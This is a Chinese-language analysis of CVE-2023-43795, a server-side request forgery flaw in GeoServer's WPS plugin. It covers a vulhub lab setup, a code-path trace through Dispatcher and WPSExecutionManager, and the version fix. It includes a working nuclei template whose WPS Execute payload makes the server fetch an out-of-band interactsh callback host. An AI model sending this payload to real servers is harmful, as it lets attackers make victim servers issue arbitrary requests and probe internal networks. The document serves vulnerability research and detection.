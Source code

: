 

# CVE-2023-43795 GeoServer ssrf 漏洞分析 - 先知社区

CVE-2023-43795 GeoServer ssrf 漏洞分析



# 0x00 概述

GeoServer 是一个用 Java 编写的开源软件服务器，它可以让用户共享和编辑地理空间数据，GeoServer 遵循 OpenGIS Web 服务器规范，使用开放标准发布来自任何主要空间数据源的数据。经过分析，该软件存在 ssrf 漏洞，攻击者可以从服务端实现任意请求伪造。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-43795 |     |
| 漏洞厂商 | GeoServer |     |
| 厂商官网 | [https://geoserver.org/](https://geoserver.org/) |     |
| 影响对象类型 | Web 应用 |     |
| 影响产品 | GeoServer |     |
| 影响版本 | version<2.22.5,version < 2.23.2 |     |
|     |     |

# 0x01 漏洞影响

[https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956](https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956)

*   version<2.22.5,version < 2.23.2
    
*   需要安装 wps 插件
    

# 0x02 漏洞环境

基于 [https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157) 进行搭建，只是要安装 wps 插件

这里版本为 2.22.1

安装对应版本的 wps 插件，下载：[https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download%EF%BC%8C%E4%B8%8B%E8%BD%BD%E5%AE%8C%E4%B9%8B%E5%90%8E%E8%A7%A3%E5%8E%8B)

修改 docker compose：

```plain
version: '3'
services:
 web:
   image: vulhub/geoserver:2.22.1
   depends_on:
    - postgres
   ports:
    - "8080:8080"
    - "5005:5005"
   volumes:
     - ./startup.sh:/startup.sh
     - ./startup2.sh:/mnt/geoserver/bin/startup.sh
     - ./gs-web-wps-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-web-wps-2.22.1.jar
     - ./gs-wps-core-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-core-2.22.1.jar
     - ./gs-wps-kml-ppio-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-kml-ppio-2.22.1.jar
     - ./gt-csv-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-csv-28.1.jar
     - ./gt-process-geometry-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-process-geometry-28.1.jar
     - ./gt-xsd-kml-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-kml-28.1.jar
     - ./gt-xsd-wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-wps-28.1.jar
     - ./net.opengis.wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/net.opengis.wps-28.1.jar
     - ./opencsv-5.0.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/opencsv-5.0.jar
     - ./serializer-2.7.2.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/serializer-2.7.2.jar
   command: bash /startup.sh
 postgres:
   image: postgis/postgis:14-3.3-alpine
   environment: 
    - POSTGRES_PASSWORD=vulhub
    - POSTGRES_DB=geoserver
```

如果要调试的话，修改一下容器中的 `/mnt/geoserver/bin/startup.sh` 文件：

[![](assets/1701606526-d4046ba73acb5fcff31c7c301dec59a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001330-3dc411d4-8a1b-1.png)

```plain
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

# 0x03 漏洞验证和利用

运行 nuclei：

```plain
id: CVE-2023-43795

info:
  name: GeoServer WPS - Server Side Request Forgery
  author: DhiyaneshDK
  severity: critical
  description: |
    GeoServer is an open source software server written in Java that allows users to share and edit geospatial data. The OGC Web Processing Service (WPS) specification is designed to process information from any server using GET and POST requests. This presents the opportunity for Server Side Request Forgery. This vulnerability has been patched in version 2.22.5 and 2.23.2.
variables:
  string: "{{to_lower(rand_text_alpha(4))}}"
  value: "{{to_lower(rand_text_alpha(5))}}"

http:
  - raw:
      - |
        POST {{path}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/xml

        <?xml version="1.0" encoding="UTF-8"?>
        <wps:Execute version="1.0.0" service="WPS"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns="http://www.opengis.net/wps/1.0.0"
          xmlns:wfs="http://www.opengis.net/wfs"
          xmlns:wps="http://www.opengis.net/wps/1.0.0"
          xmlns:ows="http://www.opengis.net/ows/1.1"
          xmlns:gml="http://www.opengis.net/gml"
          xmlns:ogc="http://www.opengis.net/ogc"
          xmlns:wcs="http://www.opengis.net/wcs/1.1.1"
          xmlns:xlink="http://www.w3.org/1999/xlink"
                xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
          <ows:Identifier>JTS:area</ows:Identifier>
          <wps:DataInputs>
            <wps:Input>
              <ows:Identifier>geom</ows:Identifier>
              <wps:Reference mimeType="application/json" xlink:href="http://{{interactsh-url}}" method="GET">
                <wps:Header key="{{string}}" value="{{value}}"/>
              </wps:Reference>
            </wps:Input>
          </wps:DataInputs>
          <wps:ResponseForm>
            <wps:RawDataOutput>
              <ows:Identifier>result</ows:Identifier>
            </wps:RawDataOutput>
          </wps:ResponseForm>
        </wps:Execute>

    payloads:
      path:
        - /wms
        - /geoserver/wms

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, 'http')
          - contains_all(to_lower(interactsh_request), '{{string}}','{{value}}')
          - status_code == 200
        condition: and
```

```plain
nuclei.exe -t CVE-2023-43795.yaml -u http://192.168.88.132:8080/
```

[![](assets/1701606526-7e65a5154e1067863eaceb53f3c91e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001342-45562a0e-8a1b-1.png)

# 0x04 漏洞分析

访问 `/geoserver/wms` ，在`org.geoserver.ows.Dispatcher` 的 `service()` 中，会调用 `this.findService()` 确定要调用的 service：

[![](assets/1701606526-185e53745e09469184f7bb4c1f2df48a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001412-56da9076-8a1b-1.png)

调用 `this.execute()` ：

[![](assets/1701606526-2498afa16d3506a1e69b5bb5150d4c81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001421-5cb628c0-8a1b-1.png)

来到 `org.geoserver.wps.DefaultWebProcessingService` 的 `execute()` ：

[![](assets/1701606526-e674b5110b821d87a753c5cf95806b66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001430-61ddfb20-8a1b-1.png)

跟进由一个 `executionManager` 负责处理 request：

[![](assets/1701606526-b5a386de3bd62dbd4ea9e16a20448cd3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001438-66bf4b26-8a1b-1.png)

最终调用一个 `WPSExecutionManager$Executor` 对象的 `call()` ：

[![](assets/1701606526-1ece104e45a58e23a9f3b87e37b7c43a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001446-6b5e0e74-8a1b-1.png)

最终触发 `org.apache.http.impl.client.CloseableHttpClient.execute()` 实现 ssrf：

[![](assets/1701606526-ebb24a81a0bcbfd67f6c1d62f33e2c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001453-6f813512-8a1b-1.png)

[![](assets/1701606526-94401f052c43739adbe98004ae9a365d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001459-733248c2-8a1b-1.png)

# 0x05 漏洞修复

更新版本到 >=2.22.5，或更新版本>= 2.23.2
